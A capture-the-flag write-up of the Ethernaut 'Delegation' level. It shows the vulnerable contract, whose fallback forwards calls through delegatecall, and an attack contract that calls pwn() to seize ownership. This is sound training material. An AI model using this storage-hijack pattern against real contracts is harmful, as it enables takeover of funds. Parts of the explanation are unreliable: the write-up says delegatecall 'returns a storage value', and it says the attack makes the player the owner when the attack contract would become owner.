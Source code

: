 <img src="https://ethernaut.openzeppelin.com/imgs/BigLevel6.svg">

## Target Contract Review

Given contract.

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract Delegate {

  address public owner;

  constructor(address _owner) public {
    owner = _owner;
  }

  function pwn() public {
    owner = msg.sender;
  }
}

contract Delegation {

  address public owner;
  Delegate delegate;

  constructor(address _delegateAddress) public {
    delegate = Delegate(_delegateAddress);
    owner = msg.sender;
  }

  fallback() external {
    (bool result,) = address(delegate).delegatecall(msg.data);
    if (result) {
      this;
    }
  }
}
```

Challenge's message.

> The goal of this level is for you to claim ownership of the instance you are given.

If we scrutinise contracts, there is only variable named owner in the **Delagate** contract and in the **Delagation** contract has owner and delegate variable. What is more , there is  a ```fallback()``` function which is exploitable. As long as we call fallback function with Delegate's function name, we can change some value. :) Let's do it!

## Subverting

In the fallback function there is calling some data from Delegate contract with ```delegatecall``` method. Shortly, **delegate** is a low level function similar to **call**. When contract **Delegation** executes delegatecall to contract **Delegate**, **Delegate**'s code is executedwith contract **Delegation**s storage, **_msg.data_**.

My attack contract.

```solidity
pragma solidity ^0.6.0;

import './Delegation.sol';

contract Attack{

    address public targetcontract;

    constructor(address _target)public{
        	targetcontract = _target;
    }

    function attack()public{
        targetcontract.call(abi.encodeWithSignature("pwn()"));
    }
}
```
For this part form of hacking, I should explain what I am doing. In first, I need get some information about contract such as contract address why will call it in attack function. Afterwards, I am calling fallback() from Delegation contract and it will call pwn() function from Delegate contract. In other saying, I am selecting pwn() function under favour of ```abi.enodeWithSignature```. The truth of the matter is that the delegatecall function returns a storage value from the called address, so when we call the pwn function, the contract will update us as the new owner, which will solve the question.

Learn contract address at first.

```shell
await instance
'0xf501D64dC0eff953cddCD8270f20f711A7aCF31E'
```
Deploy contract with contract address.

<img src="https://github.com/wasny0ps/Ethernaut-Challenges/blob/main/Challenges/Delegation/img/deploy.png">

Click attack button.

<img src="https://github.com/wasny0ps/Ethernaut-Challenges/blob/main/Challenges/Delegation/img/transaction.png">
